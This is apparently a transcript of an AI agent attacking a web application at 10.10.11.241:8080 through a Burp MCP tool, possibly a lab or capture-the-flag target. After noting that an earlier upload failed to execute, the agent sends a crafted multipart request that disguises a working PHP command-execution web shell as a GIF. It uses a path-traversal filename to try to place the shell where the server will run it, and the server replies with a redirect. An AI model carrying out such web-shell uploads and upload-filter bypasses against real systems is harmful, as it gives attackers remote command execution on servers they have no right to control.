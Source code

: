 # Context Window Usage
36,802 / 200K tokens used (18%)

# Current Mode
ACT MODE
</environment_details>

---

**Assistant:**

<thinking>
It seems that the PHP code in our shell.php.gif file is not being executed. The server is still treating it as a regular image file and just returning the raw content.

Let's try a different approach. Let's try to exploit potential vulnerabilities in the upload.php script itself. It might be vulnerable to path traversal or other issues.

Let's try to upload a file with a name that includes a path traversal sequence, like "../shell.php", to see if we can place the file in a different directory where it might be executed as PHP:
</thinking>

It seems the PHP code in our shell.php.gif file is not being executed. Let's try a different approach by attempting to exploit potential vulnerabilities in the upload.php script. Let's try to upload a file with a name that includes a path traversal sequence.

<use_mcp_tool>
<server_name>burpmcp</server_name>
<tool_name>http1-send</tool_name>
<arguments>
{
  "data": "POST /upload.php HTTP/1.1\r\nHost: 10.10.11.241:8080\r\nUser-Agent: Mozilla/5.0\r\nAccept: text/html,application/xhtml+xml,application/xml\r\nCookie: PHPSESSID=6qaatgee7p8mj7aeu3fc0g3jtn\r\nContent-Type: multipart/form-data; boundary=---------------------------12345678901234567890123456789\r\nContent-Length: 328\r\nConnection: close\r\n\r\n-----------------------------12345678901234567890123456789\r\nContent-Disposition: form-data; name=\"image\"; filename=\"../shell.php.gif\"\r\nContent-Type: image/gif\r\n\r\nGIF89a;\r\n<?php\r\nif(isset($_REQUEST['cmd'])){\r\n    echo \"<pre>\";\r\n    $cmd = ($_REQUEST['cmd']);\r\n    system($cmd);\r\n    echo \"</pre>\";\r\n}\r\n?>\r\n-----------------------------12345678901234567890123456789--",
  "host": "10.10.11.241",
  "port": 8080,
  "secure": false
}
</arguments>
</use_mcp_tool>

---

**User:**

[use_mcp_tool for 'burpmcp'] Result:
HTTP/1.1 302 Found
Date: Wed, 07 May 2025 23:39:42 GMT
Server: Apache/2.4.55 (Ubuntu)
Location: /success.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
